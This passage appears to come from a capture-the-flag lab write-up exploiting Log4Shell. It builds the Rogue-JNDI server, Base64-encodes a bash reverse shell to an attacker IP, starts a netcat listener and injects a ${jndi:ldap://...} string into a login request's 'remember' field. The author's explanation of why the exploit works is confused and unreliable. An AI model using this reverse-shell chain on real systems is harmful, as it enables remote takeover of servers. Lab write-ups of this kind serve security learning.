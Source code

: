 Once got the applications named above, build the Rogue-JNDI Java application by Maven:
```
$ git clone https://github.com/veracode-research/rogue-jndi
$ cd rogue-jndi
$ mvn package
```
This will create a `.jar` file in `rogue-jndi/target/` directory called `RogueJndi-1.1.jar`. Now we can
construct our payload to pass into the `RogueJndi-1-1.jar` Java application.

To use the Rogue-JNDI server we will have to construct and pass it a payload, which will be responsible for
giving us a shell on the affected system. We will be Base64 encoding the payload to prevent any encoding
issues:
```
$ echo 'bash -c bash -i >&/dev/tcp/10.10.14.4/4444 0>&1' | base64
YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuNC80NDQ0IDA+JjEK
```
Then, start the Rogue-JNDI application while passing in the payload as part of the `--command` option and Attacker Machine IP address to the `--hostname` option:
```
$ java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuNC80NDQ0IDA+JjEK}|{base64,-d}|{bash,-i}" --hostname "10.10.14.4"

Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Starting HTTP server on 0.0.0.0:8000
Starting LDAP server on 0.0.0.0:1389
Mapping ldap://10.10.14.4:1389/o=websphere2 to artsploit.controllers.WebSphere2
Mapping ldap://10.10.14.4:1389/o=websphere2,jar=* to artsploit.controllers.WebSphere2
Mapping ldap://10.10.14.4:1389/ to artsploit.controllers.RemoteReference
Mapping ldap://10.10.14.4:1389/o=reference to artsploit.controllers.RemoteReference
Mapping ldap://10.10.14.4:1389/o=groovy to artsploit.controllers.Groovy
Mapping ldap://10.10.14.4:1389/o=websphere1 to artsploit.controllers.WebSphere1
Mapping ldap://10.10.14.4:1389/o=websphere1,wsdl=* to artsploit.controllers.WebSphere1
Mapping ldap://10.10.14.4:1389/o=tomcat to artsploit.controllers.Tomcat
```
Now our LDAP server is running. It is still not in contact with the target server. For doing this, we can use again Burp Repeater or cURL command for creating a session between the target machine and the attacker machine. When we'll do this, the target machine executes the command specified on the Rouge-JNDI LDAP server. It occurs because maybe:
* our malicious LDAP server is saying "any LDAP server that contacts me must execute locally the command I specified (i.e. the reverse shell)";
* or the target server contacts by LDAP the malicious server, and the malicious server answers by LDAP protocol to the target server by executing there the command specified (does it mean usually the LDAP servers are not restricted? All other LDAP servers in their network can execute commands?)
* or I don't know...

At this point it's better to run our `netcat` for listening on port `4444`:
```
$ nc -lvnp 4444
```
Successively, we force the target server to contact our malicious LDAP server by using Burp Repeater:
```
<SNIP>
{
    "username":"test",
    "password":"toast",
    "remember":"${jndi:ldap://10.10.14.4:1389/o=tomcat}",
    "strict":true
}
```